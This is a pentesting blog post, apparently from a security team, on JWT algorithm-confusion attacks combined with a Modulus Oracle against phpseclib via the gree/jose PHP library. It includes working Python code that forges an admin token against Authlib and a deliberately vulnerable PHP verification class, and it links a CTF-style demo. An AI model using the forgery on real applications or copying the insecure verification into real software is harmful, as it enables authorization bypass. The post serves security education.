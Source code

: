 ```yaml
---
layout: post
title: "Modulus Oracle & JWT"
author: "RoP Team"
description: "Breaking a vulnerable JWT with a Modulus Oracle"
keywords: "RSA, JWT, crypto, oracle, modulus"
date: 2020-06-21 00:00:00 -0500
categories: pentesting
lang: en
lang-ref: modulus-oracle-part2
---
```


In a [previous post][1] we told about the *Modulus Oracle Attack*. This technique exploits the ability to treat a *modulus error* as an oracle to infer the modulus value and rebuild the public key. Really, it should not be a problem. The public key is public anyway. But in certain cases to know the public key could be very useful. The following case is one of them.

<!--more-->

### JWT and the algorithm switch

[JWT][2] is a widely used technology for authorization in web applications. It allows us to create and verify authorization tokens using cryptography to guarantee the token's integrity. However exist vulnerabilities in certain JWT implementations that allow us to forge tokens and bypass authorization controls. An attack against some JWT libraries is detailed in [this post][3]. Today all these vulnerabilities should be fixed but it is still possible to find them with the help of a careless developer.

For example, is very easy to screw it up by using the python library [Authlib][4]. The following code shows how the `decode` function accepts in the same way a valid token and a forged one. We are using `Authlib 0.14.3` (the latest to date).

```py
from base64 import urlsafe_b64encode as enc
from base64 import urlsafe_b64decode as dec
from Crypto.Hash import HMAC, SHA256
from Crypto.PublicKey import RSA
import json

from authlib.jose import jwt


# Generate a RSA keys pair
private_key = RSA.generate(1024)
public_key = private_key.publickey()

# Generate a valid RS256 signed token
valid_token = jwt.encode(
    {'alg': 'RS256'},
    {'admin': False},
    private_key.export_key()
)
print('VALID TOKEN: {}'.format(valid_token))

# Forging a HS256 signed token
header = enc(json.dumps({'alg': 'HS256'}).encode()).strip(b'=')
body = enc(json.dumps({'admin': True}).encode()).strip(b'=')
signature = enc(HMAC.new(
    public_key.export_key(),
    b'.'.join([header, body]),
    SHA256
).digest()).strip(b'=')
forged_token = b'.'.join([header, body, signature])
print('FORGED TOKEN: {}'.format(forged_token))

# decoding the valid token
data = jwt.decode(valid_token, public_key.export_key())
print('REAL DATA: {}'.format(data))

# decoding the forged token
data = jwt.decode(forged_token, public_key.export_key())
print('FAKE DATA: {}'.format(data))
```

**Output:**
```
VALID TOKEN: b'eyJhbGciOiJSUzI1NiIsInR5cCI6IkpXVCJ9.eyJhZG1pbiI6ZmFsc2V9.eo7MNx1XBcZ5dw_EY4yTLrO0rSGkOODeUBapQ__QTx6NzbnF65Gre2hcRpBOx3Mq24AR4LNnG2Kso2EboeS7qNZbC8fiTxO7YlKufbHoOXy1-p5_31AhuvOewncksvhOb7F5Y0WZX5vmAdKv7MlOSZIlMwRvJaoSRbjqkfEC7Xc'
FORGED TOKEN: b'eyJhbGciOiAiSFMyNTYifQ.eyJhZG1pbiI6IHRydWV9.BlEUBfCRolm91O1gOSXPPSJJkmVXjsfiNY5JwNojdBY'
REAL DATA: {'admin': False}
FAKE DATA: {'admin': True}
```

Write vulnerable code could be a little more harder with other libraries but not impossible.

As you can see, to exploit this vulnerability we need the public key. We can use the public key from the SSL/TLS certificate but there is no guarantee that these keys will be the same. So we had the idea to carry out a *Modulus Oracle Attack* to obtain the public key. We have searched for reasonably weak JWT libraries and vulnerable to *Modulus Oracle* and we found one.

### gree/jose

[gree/jose][5] is a JWT library for PHP. Old versions (<=2.2.0) of this library are vulnerable to algorithm switch. The current version (2.2.1) is not vulnerable but with the help of our developer it could be. If we look at [the patch][6] introduced in the current version we will see that HMAC algorithms are disallowed when the signing algorithm is autodetected by the library.  In this way vulnerable code is prevented when lazy coders forget specify the signing algorithm in the `verify` function. But our developer might think that it is a great idea to code his own utility class that autodetects the algorithm and write something like the following:

```php
class JWTUtil {
    function encode($data, $key, $algorithm='HS256') {
        $jwt = new JOSE_JWT($data);
        $jwt = $jwt->sign($key, $algorithm);
        return $jwt->toString();
    }
    
    function decode($token, $key) {
        try {
            $jwt = JOSE_JWT::decode($token);
            $jwt->verify($key, $jwt->header['alg']); // autodetect algorithm
        } catch (Exception $err) {
            return NULL;
        }
        return $jwt->claims;
    }
}
```

> **WARNING:** The previous code is **VULNERABLE** and is placed only for demonstration purposes.

### phpseclib

`gree/jose` internally depends on [phpseclib][7]. It is a library with pure-PHP implementations of cryptographic algorithms. Today the latest release is 2.0.27. If we go through the source code, we will see that the gree/jose's `JWT::verify` method reaches the phpseclib's `RSA::_rsavp1` method. Let's take a look the last one.

Source: [phpseclib github][8]
```php
function _rsavp1($s)
{
    if ($s->compare($this->zero) < 0 || $s->compare($this->modulus) > 0) {
        user_error('Signature representative out of range');
        return false;
    }
    return $this->_exponentiate($s);
}
```

As we can see, this method validates that the signature value (`$s`) is in the range $$[0, N]$$ (with $$N$$ as the modulus). When the signature is out of range, an user error is triggered and displayed on the web page as a **Notice** message. So we have an identifiable behavior to perform a Modulus Oracle attack.

> For errors to be displayed on the web page, the value of PHP's `display_errors` directive must be `On`.

Now we have all the pieces: a vulnerable JWT implementation and a Modulus Oracle. Let's move on to the demo.

### Demo

We have published in our [github repository][9] a vulnerable CTF-like application to demonstrate the described attack. You can try solving it by yourself or see the solution in the script `modulus-oracle-jwt.py`.

<iframe width="560" height="315" src="https://www.youtube.com/embed/ygOps-lZaxc" frameborder="0" allow="accelerometer; autoplay; encrypted-media; gyroscope; picture-in-picture" allowfullscreen></iframe>

<br>

Because web applications generally don't show errors, it is unlikely that we can use them to get a Modulus Oracle. But is possible to get a Modulus Oracle in another way.

To be continue...


[1]: https://blog.rop.la/en/pentesting/2020/06/15/modulus-oracle-part1.html
[2]: https://jwt.io/introduction/
[3]: https://auth0.com/blog/critical-vulnerabilities-in-json-web-token-libraries
[4]: https://github.com/lepture/authlib
[5]: https://github.com/nov/jose-php
[6]: https://github.com/nov/jose-php/commit/1cce55e27adf0274193eb1cd74b927a398a3df4b
[7]: https://github.com/phpseclib/phpseclib
[8]: https://github.com/phpseclib/phpseclib/blob/2.0.27/phpseclib/Crypt/RSA.php#L2426
[9]: https://github.com/rop-la/modulus-oracle-jwt